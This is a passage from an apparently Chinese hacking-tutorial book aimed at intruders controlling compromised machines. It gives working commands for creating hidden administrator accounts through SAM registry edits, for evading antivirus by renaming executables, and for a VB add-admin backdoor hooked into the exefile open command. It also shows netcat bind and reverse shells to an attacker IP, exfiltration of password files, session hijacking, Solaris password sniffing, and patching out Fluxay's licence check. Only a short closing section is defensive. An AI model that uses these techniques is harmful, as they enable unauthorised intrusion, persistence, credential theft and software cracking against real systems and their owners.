- （4）同样用at命令导出HKEY_LOCAL_MACHINE\sam\sam\Domains\account\users下的键值：`at \xx.xx.xx 12:55 c:\winnt\regedit.exe /e hacker.reg HKEY_LOCAL_MACHINE\SAM\SAM\Domains\account\users\` /e 是regedit.exe的参数，在_LOCAL_MACHINE\SAM\SAM

HackerXFiles 105

## 经典易学研究 黑客入门实例精讲

\Domains\account\users\这个键的一定要以\结尾。必要的情况下可以用引号将"c:\winnt\regedit.exe /e hacker.reg HKEY_LOCAL_MACHINE\SAM\SAM\Domains\account\users"引起来。

- (5) 将肉鸡上的hacker.reg下载到本机上，用记事本打开进行编辑命令为：``copy \xx.xx.xx\admin$\system32\hacker.reg c:\hacker.reg``
修改的方法图形界中已经介绍过了，这里就不作介绍了。
- (6) 再将编辑好的hacker.reg拷回肉鸡上： ``copy c:\hacker.reg \xx.xx.xx\admin$\system32\hacker1.reg``
- (7) 查看肉鸡时间: net time \xx.xx.xx 然后用at命令将用户hacker$删除：
``at \xx.xx.xx 13:40 net user hacker$ /del``
- (8) 验证hacker$是否删除:用net use \xx.xx.xx /del 断开与肉鸡的连接。
``net use \xx.xx.xx\ipc$ "1234" /user:"hacker$"``，用帐户hacker$与肉鸡连接，不能连接说明已删除。
- (9) 再与肉鸡建立连接：``net use \xx.xx.xx\ipc$ "12345678" /user:"administrator"``
再取得肉鸡时间，用at命令将拷回肉鸡的hacker1.reg导入肉鸡注册表：
``at \xx.xx.xx 13:41 c:\winnt\regedit.exe /s hacker1.reg``
regedit.exe的参数“/s”是指安静模式。
- (10) 再验证hacker$是否已建立，方法同上面验证hacker$是否被删除一样。
- (11) 再验证用户hacker$是否有读、写、删的权限，如果不放心，你还可验证是否能建立其它帐户。
- (12) 通过11可以断定用户hacker$具有超级用户权限，因为最初我用at命令建立它的时候是一个普通用户，而现在却具有远程读、写、删的权限。

### （三）如果肉鸡没有开3389终端服务，而我又不想留命令行，怎么办。

这种情况下，你也可以用界面方式来远程为肉鸡建立隐藏的超级用户。因为regedit.exe、regedt32.exe都有连接网络注册表的功能，你可以用regedt32.exe来为远程主机的注册表项设置权限，用regedit.exe来编辑远程注册表。帐户管理器也有一项连另一台计算机的功能，你可以用帐户管理器为远程主机建立和删除帐户。具体步骤与上面介绍的相似，我就不多说了，只它的速度实在是令人难以忍受。但是这里有两个前提是：

- (1)、先用 net use \\肉鸡ip\ipc$ "密码" /user:"超级用户名" 来与远程主机建立连接以后，才能用regedit.exe、regedt32.exe及帐户管理器与远程主机连接。
- (2)、远程主机必须开启远程注册表服务(没有开启的话，你也可以远程开启，因为你有超级用户的密码了)。

### （四）利用被禁用的帐户建立隐藏的超级用户。

我们可以用肉鸡上被禁止的用户来建立隐藏的超级用户，方法如下：
- (1)、想办法查看有哪些用户被细心的管理员禁止，一般情况下，有些管理员出于安全考虑，通常会将guest禁用，当然也会禁用其它

106 黑客入门


# 黑客入门实例精讲 经典黑手研究 www.hackerxfiles.net

用户。在图形界面下，非常容易，只要在帐户管理器中就可以看到被禁用的帐户上有一个红叉；而在命令行下，我还没有想到好的办法，只能在命令行下用命令：net user 用户名一个一个来查看用户是否被禁用。

（2）．在这里，我们假设用户hacker被管理员禁用。首先，我先用小榕的超级用户克隆程序CA.exe，将被禁用的用户hacker克隆成超级用户（克隆之后，被禁用的用户hacker就会自动被激活了）：CA.EXE \\肉鸡ip Administrator 超级用户密码 hacker hacker 密码。

（3）．如果你现在一个cmdshell，如利用telnet服务或SQLXEC连接肉鸡的msSQL的默认端口1433得到的shell都可以，这时你只要输入命令：net user hacker /active:no 这样用户hacker就被禁用了（至少表面上是这样的），当然你也可以将用户hacker换成其它的被禁用的用户。

（4）．这时如果你在图形界面下看帐户管理器中的用户时，会发现用户hacker被禁用了，但事实是这样的吗？你用这个被禁用的用户连接一下肉鸡看看是否能连上？用命令：net user \\肉鸡ip\ipc$ "hacker密码" /user:"hacker" 连一连看看。我可以告诉大家，经过我多次试验，次次都能成功，而且还是超级用户权限。

（5）．如果没有cmdshell怎么办？你可以用我上面介绍的at命令来禁用用户hacker，命令格式：at \\肉鸡ip time net user hacker /active:no

（6）．原理：具体的高深的原理我也说不上来，我只能从最简单的说。你先在图形界面下在“帐户管理器”中禁用一下超级用户administrator看看，肯定会弹出一对话框，并禁止你继续禁用超级用户administrator，同样，因为在克隆时，hacker在注册表的“F”键被超级用户administrator在注册表的“F”键所替代，因而hacker就具有了超级用户的权限，但是由于hacker在注册表内“C”键还是原来的“C”键，所以hacker还是会被禁用，但是它的超级用户权限却不会被禁用，因此被禁用的用户hacker还是可以连接肉鸡，而且还具有超级用户的权限。


（1）、隐藏的超级用户建立以后，在帐户管理器和命令行下均看不到这个用户，但这个用户却存在。

（2）、隐藏的超级用户建立以后，就不能再修改密码了，因为一旦修改密码，这个隐藏的超级用户就会暴露在帐户管理器中，而且不能删除。

（3）、如在本机上试验时，最好用系统自带的备份工具先备份好本机的“系统状态”，主要是注册表的备份，因为本人做试验时，曾出现过帐户管理器中看不到任何用户，组中也看不到任何组的现象，但它们却存在。幸好我有备份，呵呵。SAM 键毕竟是系统最敏感的部位。

以上是本人收集的黑客的各种隐藏超级用户的例子，大家现在是不是觉得自己的技术提高了不少呢？

不过，遗憾的是，费一半天劲，这样的隐藏只能在当次使用，确实让人不爽，也很值得大家讨论。

## 手工跳过杀毒防火墙的方法

大家成功入侵一台服务器后是不是常常被机器上的病毒防火墙所阻碍呢？导致我们把后门软件传上去后就被病毒防火墙发现，最后被管理员察觉。

现在opentelnet,ca等软件也被列在病毒的行列里了，放到肉鸡上很可能就被杀掉。不仅如此，竟然连SkSockServer也都被列为病毒。太可恶了！

经过几次尝试，我想到了一种简单的躲过杀毒软件的方法。那就是更改可执行程序的扩展名。比如我们可以把SkSockServer.exe更改为sk.jpg。这样的话，杀毒软件就查不出来了。在直接双击执行更改过扩展名的程序时候，系统便会询问用什么方式打开，也就是说windows也认不出来。

但是我们在cmd命令行中却可以执行。是不是很神奇？而且和没改扩展名的时候效果是一样的。不同的是，当我们要执行更改了扩展名的程序时需要打全名(把扩展名也打上)。下面是我在本机上安装sksockserver(sk.jpg)：

首先：我们利用没改扩展名的程序：

```
E:\>SkSockServer -install
拒绝访问。
```

这时病毒防火墙就报警说有病毒出现。那么接下来看看我改过扩展名的程序SkSockServer。

```
E:\>SkSockServer.jpg -install
Snake SockProxy Service installed.
E:\> SkSockServer.jpg -config port 1800
The Port value have set to 1800
E:\> SkSockServer.jpg -config starttype 2
The New StartType have set to 2 -- Auto
E:\>net start skserver
Snake SockProxy Service 服务正在启动
Snake SockProxy Service 服务已经启动成功。
```

好了！成功！看来我们现在的SkSockServer已经不怕杀毒软件了！而其他的在命令行执行的程序也可以用这种方法。我就不一一叙述了。

> 其实原理很简单，我们利用了cmd判断文件类型的方法：在CMD中，系统首先判断文件的类型是否是执行文件，判断方法不是文件扩展名，而是文件头的PE段。如是执行文件，则执行它。如不是，再根据相应的关联启动相应程序。如没有输入扩展名，则系统将默认扩展名为BAT,EXE,COM 依次判断。也就是说，程序更改了扩展名后，只有cmd.exe能"认"出它来，因为cmd不是根据扩展名来判断文件类型的。而windows是靠扩展名来判断文件类型的，这样，我们就可以骗过windows和杀毒软件。

## 由一次被恶意攻击联想到的后门技巧

开机进入桌面后QQ就自动启动，因为QQ是可执行文件，所以接下来就是蓝屏。就因为这样，我为了找到我中的是什么毒，非法关机无数次了。心疼死我了！

不过我肯定对方一定是用了修改注册表来达到破坏的目的，但是我的注册表到底是哪个部分被修改了呢？我也没有备份注册表。最后我在查资料的时候发现现在的木马启动方式很多。但是有一种木马（广外女生）引起了我的注意。我总觉得在这个木马启动的方式很象我中毒的现象，我找到几个关键的部位。

## 前言

大家想知道如何快速提高自己的安全水平和黑客技术吗？那么我就告诉大家，这就需要多加实践，其次就是要自己遭到别人的攻击，这样是提高自己防黑的最好方法。而且从中你不仅在恢复系统方面得到了锻炼，还能对黑客的攻击手法做一些转变，把这门技术变成自己的东西。那么下面就看看我遭到攻击后是如何利用攻击的手法转变一种后门技巧的。

广外女生启动方式：
HKEY_LOCAL_MACHINE\SOFTWARE\
Classes\exefile\shell\open\command\
HKEY_LOCAL_MACHINE\SOFTWARE\
Classes\comfile\shell\open\command\
HKEY_LOCAL_MACHINE\SOFTWARE\
Classes\txtfile\shell\open\command\

### 起因

曾经我在网络上闲逛的时候，有个QQ消息给我发了过来，里面说http://www.xxxx.com里有大量的DJ，由于本人爱好DJ所以没多想就直接点击那个网站。这一点击不要紧，但是从此我的机器就面临一场大劫难了。

要了解木马是怎么启动的先看图[1]。

### 修复

那大家一定想问我的机器怎么了？哎！自从我登陆那个网站以后，当我点击我电脑里任何可执行文件（EXE）和文本文件（TXT）后就蓝屏了，并且我的QQ也在启动栏里，每次


图 1

## 经验与观念 黑客入门实例精讲

正常情况下exefile\shell\open\command\的默认数据是"%1" %*，但是木马的制作者会在"%1" %*的前面加上木马的路径和名字，目的就是当用户在执行exe文件的同时就启动木马。是不是很毒啊，不仅如此他们还会在comfile和txtfile里做同样的操作。那么以后你不管执行exe、txt、com文件都会启动木马的！

既然我知道我也是中了此类型的病毒，那么我每次点击exe文件后都蓝屏，难道他把"%1" %* 改成con\con了。不想那么多了，那首先得先进注册表啊！但是注册表的扩展名也是exe的。那怎么办啊？

最后我灵机一动想到了一个简单的方法，于是我开机后按F8进入安全模式，因为安全模式可以把开机启动里的东西都禁止，所以我的QQ就启动不了，这样也就不存在蓝屏的事故了。接下来我进入c:\windows下把regedit.exe改成regedit.scr了。大家一定都会问.scr是什么文件的扩展名啊？

那么我告诉大家，他是windows屏幕保护文件的扩展名。请看图[2]和[3]的区别。


他们虽然图标不一样，但是都能打开注册表。打开之后，发现“HKEY_LOCAL_MACHINE\SOFTWARE\Classes\exefile\shell\open\command\”的键值果然变成了如图[4]的样子。

终于找到根源了，于是我双击默认键值，把他改回原来的样子，如图[5]。

最后按“F5”热键刷新注册表之后再打开exe类型文件，哈哈！这回可以正常打开了。


### 后记

通过这次受害也不是一件坏事，因为我又掌握了一个做后门的方法啊！好的，现在我就来说一下如何使用这类方法做后门。

当大家入侵了一个开3389的服务器后，如果想在系统里建立一个自己的帐号（这个大家都知道吧！）。但是这样很容易被管理员发现。所以我们要在主机上保持我们的权限，就要先保持我们的system权限的帐号不被删除。

这里我教大家一个方法，首先用VB6.0做个添加用户的程序，代码如下：

```
Private Sub Form_Load()
    On Error Resume Next
    Shell "net user jiangchao 12345 /add", vbhide
    Shell "net localgroup administrators jiangchao /add", vbhide
End Sub
```

110 黑客X档案

# 黑客入门实例精讲

然后把他传到对方的机器比较隐秘的地方，例如：c:\winnt\system32\下，因为里面的文件很多，管理员不可能一个一个的去检查吧？然后起个有欺骗性的名字，例如：system.exe。这样经验不足的管理员就更不敢删除了。然后打开注册表。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\exefile\shell\open\command\
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command\
```

分别在键值里的"%1" %*前面填写我们程序的路径和名字。
例如：c:\winnt\system32\system.exe "%1" %*
这样的话，对方的机器每当执行exe或txt文件后程序就会被执行。所以说管理员即使删除了我们添加的用户，当他执行这2个类型的文件后，我们的用户又神奇的在他机器里现身了。


在看这篇文章之前大家都用过NC这个好东西吧？人们把他称做瑞士军刀一点也不夸张，因为他的功能太强大了，我看应该把他也当作是一个标准的telnet客户端程序，那么有谁能挖掘它的所有功能呢？好在我经过多方面的研究，把他一些有用的功能介绍给大家。
大家可以用c:\nc.exe -h来看看说明。由于篇幅关系，我要求的都是经典的东西，所以我就不浪费大家的时间了。

### NC 的常用命令格式

- 1. 当作远程登陆工具
`c:\nc.exe xx.xx.xx.xx`

- 2. 端口监听
`c:\nc -vv port`
/*这条命令是给自己机器开启指定的端口做监听，大家通常用溢出工具和它组合*/

- 3. 当作扫描器
`nc -vv -w 5 ip port-port port`
`nc -vv -z ip port-port port`

- 4. 作为后门工具
在受害者的机器上使用如下命令：
`nc -l -p port -e cmd.exe`
`/*win2000*/`
`nc -l -p port -e /bin/sh`
`/*unix,linux*/`

在自己的机器上使用如下命令：
`nc ip -p port`
`/*连接victim_IP,然后得到一个shell。*/`

- 5. 可以反向连接突破防火墙

在自己的机器上使用如下命令
`nc -vv -l -p port`
在受害者机器使用如下命令：
`nc -e cmd.exe attacker ip -p port`
`nc -e /bin/sh attacker ip -p port`

- 6. 传送文件

3.5.1 attacker machine <-- victim machine //从肉鸡拖密码文件回来。
在我们机器上使用：
`nc -d -l -p port < pathiledest`
在肉鸡上使用如下命令：
`nc -vv attacker_ip port > pathile.txt`

- 7.端口数据抓包（这个不常用，不过也看看吧）

```
C:\nc -vv -w 2 -o test.txt www.jiangchao 80 21-15
< 00000058 35 30 30 20 53 79 6e 74 61 78 20 65 72 72 6f 72 # 500 Syntax error
< 00000068 2c 20 63 6f 6d 6d 61 6e 64 20 22 22 20 75 6e 72 # , command "" unr
< 00000078 65 63 6f 67 6e 69 7a 65 64 2e 0d 0a # ecognized...
< 00000084 83 00 00 01 8f # .....
```

- 8. telnet，自动批处理（这个是一个比较有用的功能）

连接受害者机器：
`nc victim_ip port < pathile.cmd`
连接受害者机器：
`nc -vv victim_ip port < pathile.cmd`

```
nc -d victim_ip port < pathile.cmd
```

安静模式。
`file.cmd`

```
password
cd %windir%
echo []=
c:
cd \
md test
cd /d %windir%\system32\
net stop sksockserver
snake.exe -config port 11111
net start sksockserver
exit
file.cmd__END
```

### 管理肉鸡，更改肉鸡设置

1.比如要统一更改肉鸡上面的代理端口，snake.exe 修改为11111服务，名称"sksockserver"
使用 winshell 后门，端口 1234 密码 password
命令格式就是：
`modi.bat youip.txt`

```
modi.bat
@if "%1"=="" echo Error: no ip.txt &&goto END
:start
@echo password >a.cmd
@echo s >>a.cmd
@echo cd /d %%windir%%\system32\ >>a.cmd
@net stop "sksockserver" >>a.cmd
@snake.exe -config port 11111 >>a.cmd
@net start "sksockserver" >>a.cmd
@exit >>a.cmd
:auto
@for /f "eol=; tokens=1,2" %%i in (%1) do @(nc.exe -vv -w 3 %%i 1234 < a.cmd)
:END
```

112 黑客X档案

## 黑客入门实例精讲 经典实战演练

modi.bat__END

```
2
@echo off
color f0
:start
cls
C:\nc -vv -w 3 -l -p 80>>80.txt
goto start
```

把防火墙关掉以后运行这个批处理，会监


大家对于使用Fluxay(流光)再也熟悉不过了吧？这款软件的确对菜鸟来说是个学习黑客很好的扫描工具。但是软件作者给流光设置了时间期限，流光过期了，就不能用了。好了这次我要介绍的就是怎样使流光永远也不过期。怎么样，很兴奋吧？那就来看吧！

有聪明的说这很简单啊！把你的系统时间调到过期之前的日期流光不就可以使用了吗？没错！的确是这样的。但是作为一个高级程序员的小榕是不会这么容易让你得逞的。当把系统日期调到过期之前后在上网的情况下好使，但登陆到internet后却又出现了过期的提示。这是怎么回事呢？

听到许多探测U漏洞的信息，大多是三条一组——尼姆达病毒扫描的。这样就会得到肉鸡的，虽然质量不高，但也是一种便宜的办法。

以上是我收集和自己的心得，其实NC不只有这点功能，剩下的就请大家自己挖掘，请大家掌握这些东西，让自己的知识变得丰富起来。

这是因为小榕对流光做了双重时间验证加密功能。

> 1. 通过判断系统的时间来判断软件是否过期。
2. 关键：Internet上利用网络时间验证加密（这里他是利用www.yahoo.com和www.sina.com.cn两个存活率高的网站的网络时间进行验证，就是每次登陆Internet的时候跟这两个网站的时间对比，如果过期了就出现。如图1的提示。


这里有人说那怎么办啊！又不能把这两个网站黑掉（呵呵！要是有黑yahoo的能耐谁还用流光啊？），切回正题，这就是我要讲的怎么使流光继续使用的方法。有点技术的菜鸟都应

HackerXFiles 113


# 黑客入门实例精讲

该知道16进制文件编辑器吧——UltraEdit-32。他可以对exe和dll文件进行编辑。我就是用他来修改流光的程序的。首先我们打开UltraEdit-32，并且导入流光的fluxay.exe主程序，如图[2]。

然后在搜索的菜单下在“查找ASCII字符”选项前打上对号。在find what里面填上www.yahoo.com，如图[3]。

注意：我用的是英文版本的，大家如果英文不好可以下载汉化版本。

之后我们就会看见我们找到的结果。如图[4]看到了www.yahoo.com和www.sian.com.cn两个网站了吧？这下大家就该明白怎么办了吧！对了就是破坏这2个网址的正确地址导致主程序启动的时候不能找到这两个地址。这里我们就把www.yahoo.com和www.sina.com.cn修改成abc.yahoo.com和abc.sina.com.cn。修改完毕后存档。然后把系统的时间调整到过期之前然后再启动主程序，就可以永不过期的使用了啊。

注意：修改后的字节必须跟修改前的字节一样。否则修改后的程序会失效的。

很兴奋吧。不过对于手头上没有UltraEdit-32的朋友我们还有一种更方便更快的方法。相信大家都用过防火墙吧！对！这就是使用流光的第2个方法。因为我们每次启动流光，流光都会访问这两个网址。但是防火墙有个功能就是每当要通过TCP/Ip协议时都要提示用户是否要通过。如图[5]这里我使用的是金山网镖防火墙。

看到了吧！当流光启动后直接访问防火墙是否让这个协议通过。这时候要选择禁止。这样连续2次选择禁止后就可以使用了（因为流光要分别访问2个网站，所以要2次）。然后就可以放心的使用了，再也不怕过期了。在本书里的编程栏目里我写了在编程方面如何弥补这样失误的文章，如果大家感兴趣可以看。


# 超级终端中监视其他用户小技巧

大家是不是有用某种方法入侵了一台开有3389的服务器后，利用终端登陆去做后门或干什么的经历啊？但是大家肯定遇到过，在自己利用超级终端登陆的同时也有别的用户登陆，这样很容易暴露自己的行踪，那么现在我就来简单地演示一下在同一个终端下如何监视和控制其他用户的小技巧。

### 步骤如下：

1. 先用Administrator权限登陆，然后打开“控制面板” —>“管理工具” —>“终端服务管理器”，如图[1]。
2. 在窗口左边点你的肉鸡的名字，右边窗口就会列出同时连接的用户，头像是彩色的用户就是你自己了。在别人的头像上（除了在本地登陆的用户）点右键，弹出的菜单有：连接、断开、发送消息、过程控制、复位、状态、注销等选项，如图[2]。

好了，现在来仔细分析一下连接、断开、发送消息、过程控制、复位、状态、注销。

#### 连接

执行它时，你将会连接到另一用户的桌面上，系统会强行断开该用户，不会对用户有任何提醒。注意不是注销，就好像我们把终端窗口关闭似的，所以该用户的所有程序都正常运行。这个操作等于你强行霸占了别人的桌面，但如果那人又想要回来，行吗？不行的，当他要用该帐号登陆时系统会对他说：“服务已经超出最大允许连接数”，拒绝。注意，这和用同一用户名登陆不一样的，同一用户名可以有很多人用它登陆，但被人挤下来就不能再用了，除非挤你的人又把它空出来。

#### 断开

执行它时系统将会提示：“将中断连接每个所选会话”。这是什么意思呢？应该把它理解成：“将中断所选连接的每个会话”。确定以后，该用户就会弹出消息：终端服务器已结束连接。别人只有点关闭来发呆。但是他可以重新用该帐号连接的，因为你并没有占用他的位置，你只是把他踢下去而已。并且他连接后桌面还是那个桌面，也就是说，他在运行的程序每个都还好好的。

#### 发送消息

点它后会有个写消息的窗口。上栏是标题，你可以更改，也可以用系统默认的;下栏是内容，你想写什么都行,有字数限制的。点确定后那些字就会以消息框的形式马上出现在对方的桌面上。

#### 远程控制

点击这个选项以后,会出现个退出远程控制的热键设定，选取它默认的——确定。之后它会告诉你“正在建立远程控制会话”,这时候另一个用户的桌面就会出现“某某某正在请求远程控制您的会话，确定吗？”的消息，假如他心甘情愿让您摆布，点了确定后你就和他在同一间小屋使用同一张桌面了…这时候两个人都可以进行操作，而你若只是想旁观而已，要先执行“控制面板” —>“管理工具”—>“计算机管理” 如图[3]。

在出现的窗口左栏点“本地用户和组”—>“用户”，如图[4]。

在右栏里右键点击你想远程观看的用户，点“属性”，在出现的窗体上点“远程控制”，在最下面有两个单选项：“查看用户会话”和“与会话交互”，如果你只想看看就选前者，如果你又要看又要操作的，那就要选后者。当然，最后要点确定来退出那个窗口,然后再进行远程控制。呵，这可太顺利了，但是，要是别人并不让你控制，你也就没辙了，windows会告诉你“远程控制另一个会话的请求被拒绝。”或是他什么也没做，过了八九秒钟，结果还是如此，电脑和人不一样，不表态是代表着不愿意：）不知别人有没有霸王硬上弓的方法，若有，记得要跟我说说。


#### 复位

执行以后，效果和断开一样，但是对方的未保存的数据就全部没有了，就好像我们按了自家电脑的复位键一样，重新启动。它和注销的区别好像是把该用户的状态也一起清零似的，该是这样的吧，我以为。请高手指点。

#### 状态

也就是该用户的一些数据，挺罗嗦的，自己看看吧。

116 黑客X档案

#### 注销

强迫别人退出这个领地，当然，别人可以马上重来的，除非你改了密码……嘘，不要做得那么绝嘛，让大家都有肉鸡可以使才有意思嘛。

在终端服务管理器里，你还可以终止别人的进程，就连本地登陆的进程也可以杀的，盖茨们的想法果然跟人家不一样……

最后说一声，当你想霸占别人的成果时，你可以用连接坐享其成——这思想好像不好：）当你想捉弄某人时，可以用断开，或是复位注销的，让他手忙脚乱的，嘻嘻！


#### 注意：

使用这个技术之前我首先要声明一下，看完题目可别认为免的是网费啊，这里是的确确的免去电话费去上网啊，不信？那就请往下看吧。

我学习MCSE的时候，老师曾经说过，利用Win2k网络服务中的“呼叫回拨”功能，可以在自己家里利用拨号到别人的机器上，不过这种方法通常用在家里与公司的局域网连接而方便工作所采用的。而且自己不用花钱上网，我一直没有去尝试，这回我就把这个技术与3389肉鸡联系起来讲，现在我就来给大家介绍这个绝技吧。

我相信大家都入侵过以3389开放的Win2k机器吧，那么大家进去后都要干什么呢？留后门？呵呵！太没创意了吧，这回我就可以教大家利用肉鸡免费上网的技术！不要太激动啊。

#### 呼叫回拨的原理

就是在局域网中的某台服务器起拨号网络服务器的作用，远程电脑作为一个客户机(我们自己的电脑)向服务器发出拨号请求，当服务器验证身份之后，将挂断电话，并回拨到客户机。这样，我们就通过这条单独的电话线实现了两机的互联，客户机通过服务器可以访问服务器所在的局域网，如果这个局域网能够上互联网的话，那么此方法也可以提供给客户机上网的请求，其安全性也是可想而知得。

那么现在我就来介绍怎么配置服务端和客户端吧！首先是Server端，则需要用Windows 2000或Windows XP，因为微软只在Windows 2000以后的操作系统中才加入了网络服务的模块，而在Windows 98操作系统中则没有该模块！（因为我们的3389肉鸡一定是Win2000的系统啊，所以正好符合要求）。而对于Client端来说则用Windows 98就可以了。

HackerXFiles    117

# 网络典型实验 黑客入门实例精讲

### 服务器端的设置

我们首先来进行Server端的设置。目的是在服务器上建立一个拨号网络连接，只是其连接具有“呼叫回拨”的能力。

步骤如下：

1. 右键单击“网上邻居→属性→网络和拨号连接”，然后双击“新建连接”，我们将看到“网络连接向导”对话框。（如图[1]）
2. 单击“下一步”，我们将看到对话框，选择第四项“接受传入的连接”。（如图[2]）
3. 单击“下一步”，选择连接的设备，即你的Modem。（如图[3]）
4. 单击“下一步”，如果此服务器连接在Internet上，那么它可以提供给客户机上Internet的请求，选择“允许虚拟专用连接”。（如图[4]）
5. 单击“下一步”，我们将在此对话框中设置允许呼叫回拨的客户机的用户名及口令。单击“添加”我们将看到“新用户”的对话框，输入你需要的用户名和口令后单击“确定”。我们将在图中看到添加的用户名。（如图[5]）
6. 然后单击建立的用户名，单击“属性”。我们将看到“常规”项和“回拨”项，“常规”内为你设置用户名及密码，不需要改动，下面我们就来设置“回拨”项。（如图[6]）

选择“不允许回拨”，当客户机向服务器拨号时，验证身份后，服务器将不回拨，保持现有连接，客户机可以直接访问局域网以及通过局域网访问互联网。若选择第二项“允许呼叫方设置回拨号码”，那么当客户机向服务器拨号时，验证身份后，服务器将自动断开连接，等待几秒后自动向客户机所在的电话拨号。注意：（第一项与第二项效果上是没有区别的，惟一的区别就在于电话费，若选择第一项，电话费将由客户机端电话支付，若选择第二项，电话费将由服务器端电话支付。呵呵！这里对我们来说很关键啊）。我们以选择第二项为例。设置好属性后，单击“下一步”，我们来设置网络组件。对于网络协议使用默认即可。


118 黑客X档案

# 黑客入门实例精讲

### 客户端的设置

Client端的设置是非常简单的，我们只要像平时拨号上网时建立一个新连接便可以了。而且Client端还能是Win98，正好满足使用Win98的用户。

1. 单击“开始→设置→拨号网络”，双击“建立新连接”，为此连接起个名称。
2. 单击“下一步”，在电话号码一栏内键入服务器端的区号及电话号码，然后单击“下一步”，单击完成，客户端设置结束。

### 呼叫回拨的实现

下面我们就来了解“呼叫回拨”是如何实现的。我们假定服务器端的电话号码为4622205，客户端的电话号码为4864158。首先客户机端打开建好的连接，输入用户名和密码（此用户名和密码是服务器端建好的用户名和密码），然后点击连接。此时客户机和服务器的Modem将同时响应，此后，服务器将验证客户机的用户名及密码，当验证通过后，服务器将挂断电话，等待数秒，服务器将向客户机拨号，并要求输入客户机的电话，我们输入4864158，之后服务器将向客户机拨号，双方Modem响应之后，呼叫回拨便建立起来了。这样客户机便可以在网上邻居里访问任何一台局域网内的计算机，因为我们的肉鸡是能连接到Internat的，所以我们就可以畅通无阻的浏览Internat了，呵呵，以后就不用自己付电话费用了。真是太爽了。


看完题目后，大家一定会觉得奇怪吧！系统怎么会自己带黑客工具呢？呵呵，那就来跟我一起看看吧。

# 经典黑客实战 黑客入门实例精讲

在Solaris系统中默认安装中自带的一个Sniffer(嗅探器)。名字叫Snoop，Snoop是一个在命令行下的嗅探器，这不正适合我们吗？现在让我们来看看Snoop的使用方法：
Snoop [选项]—[过滤]


- **[-a]** #在Audio上监听
- **[-d device]** #设置监听设备
- **[-c count]** #设置嗅探包的数量
- **[-P]** #关闭混杂模式
- **[-S]** #包的大小
- **[-I file]** #从文件中读取记录
- **[-o file]** #把嗅探到的数据放到文件里
- **[-v]** #包的详细信息
- **[-V]** #显示所有包的信息
- **[-C]** #显示包过滤码


首先你得有个Solaris的肉鸡，或者你自己的Solaris系统，假如我们已经成功入侵了一个Solaris机器，并且得到了最高权限，那么现在我们就可以用Snoop来嗅探经过这个机器的传送密码了。但是Snoop在Solaris里的什么位置呢？
一般Snoop都在/usr/sbin/snoop下面，不过有时候不在这里，我们用命令：
**#find / -name snoop “Cprint”**
来查找,因为我们的目的是要扑获网络上所有的密码，所以我设置Snoop的过滤选项来捕获密码，使用如下命令：
**#nohup /usr/sbin/snoop “Co log “Cc 1000 port telnet or port ftp&**
这里使用nohup和&让Snoop在后台运行，

也就是我们启动Snoop后，退出连接，Snoop还会照常运行。-o命令是把嗅探记录存放到log的文件里，-c 1000这个命令是一共捕获1000个包，如果你不设置，它会一直捕获下去，这样会占具很大的系统资源，管理员很容易发现，所以在捕获前要根据对方机器硬盘的大小来设置捕获包的数量。这里我用了port telnet or port ftp的意思我们就来捕获从telnet和ftp登陆的用户。一切完毕后，退出终端，下次再登陆的时候，我们会看到嗅探器目录下会有个log的文件,这个文件因为不是文本文件，所以用cat命令是不能看的，所以用Snoop的专用命令来看记录：

```
#/usr/sbin/snoop “Cl log |more
i-i-
gj-12-xx.xx.xx.01->xx.xx.xx.xx ftp c
port =1924
xx.xx.xx.xx->gj-12-xx.xx.xx.01 ftp
R port =1924
gj-12-xx.xx.xx.xx->xx.xx.xx.01 ftp c
port =1924
gj-12-xx.xx.03->xx.xx.xx.xx ftp c
port =1924
gj-12-xx.xx.03->xx.xx.xx.xx ftp c
port =1924
USER admin\r\n
xx.xx.xx.03->gj-12-xx.xx.xx.01 ftp
R port =1924
xx.xx.xx.03->gj-12-xx.xx.xx.01 ftp
R port =1924
PASS 15052570\r\n
```

上面的记录是一个IP为xx.xx.xx.03的用户使用FTP登陆本机，他的用户名为：admin密码为：15052570。
呵呵,是不是系统自带的东西用起来很方便啊，省时省力又省事，这样大家就不用再费劲寻找嗅探器了。

# 安全防护

## 前言

从网络拓扑结构分析，网络一般分为内部网络和外部网络，安全风险位置上来讲来源于两个方面，即来自外部和内部的威胁。在内外网的连接处靠防火墙能阻挡来源于外部的威胁但只能阻挡一部分。外部入侵者仍可通过防火墙放开的服务端口渗透进内部网络实施攻击，通常把对外提供的服务移到防火墙外的非军事区，但它暴露在外部攻击者面前却没有防火墙做屏障。防火墙不能阻挡绕过去的攻击，防火墙对内部的攻击也无能为力。防火墙的控制规则是预先定义好的，对瞬息万变的外部威胁难以适应，那么至少有四种情况的安全问题是防火墙无法解决的，即如何保护DMZ区，如何动态配置防火墙，如何发现绕过防火墙的攻击，如何解决来自内部的安全威胁。几个通常的静态防护技术除防火墙外还有认证、加密、授权、存取控制等，但它们都是静态的安全机制，这些机制能否充分发挥作用取决于合理的配置，否则就会失效或漏洞百出。

网络安全检测工具通常是一个网络安全性评估分析软件，其功能是用实践性的方法扫描分析网络系统，检查报告系统存在的弱点和漏洞，建议补救措施和安全策略，达到增强网络安全性的目的。

针对外部或内部威胁进行实时入侵检测，即对网络活动和系统事件进行实时监控，实时入侵检测强调时间性，是连续、不间断地监控、检测、响应，防护循环过程，实时入侵检测必须实时执行。

按入侵检测的策略来分，入侵检测模型可分为基于异常统计和模式匹配两类模型。模式匹配模型建立在已知的入侵特征库基础上，而异常统计模型则建立在已知系统正常工作模式基础上。

按入侵检测的手段来划分，入侵检测模型可分为基于网络和基于系统两种模型，新的实时入侵检测方案是把两种监控技术融合，在被保护的重要服务器上实施，既监控服务器的系统事件又监控本机的网络流量。

网络是动态变化的，入侵者会利用不断发现的网络、系统的安全漏洞，采用各种新的方法进行攻击，所以应该不断跟踪分析黑客行为和手法，研究网络和系统的安全漏洞，这些都体现在安全检测产品上，即入侵特征库及安全漏洞库，也是评价一个安全检测产品好坏的重要因素。当然，入侵特征库及安全漏洞库更新的速度也很重要。实时入侵检测工具如eTrust Intrusion Detection能监视网络流量，也能监控系统事件，提供多种响应方式，并能动态配置防火墙，它完全满足实时入侵检测技术的要求，是最出色的实时入侵检测安全解决方案。


## Sun OS 基本安全配置

相信读者对于Win2000的入侵和攻击都心里有数了吧！其实攻克一个Win2000机器很容易，Win2000服务器多方面都有漏洞，所以大家都称微软系统为“漏洞之王”，且大量漏洞的危险度极高。相比之下，Sun OS系统在安全和服务方面远远超过Win2000系统。不过攻击Sun系统的人也很多，所以这次我就简单介绍一下如何简单安全配置一个Sun OS系统。

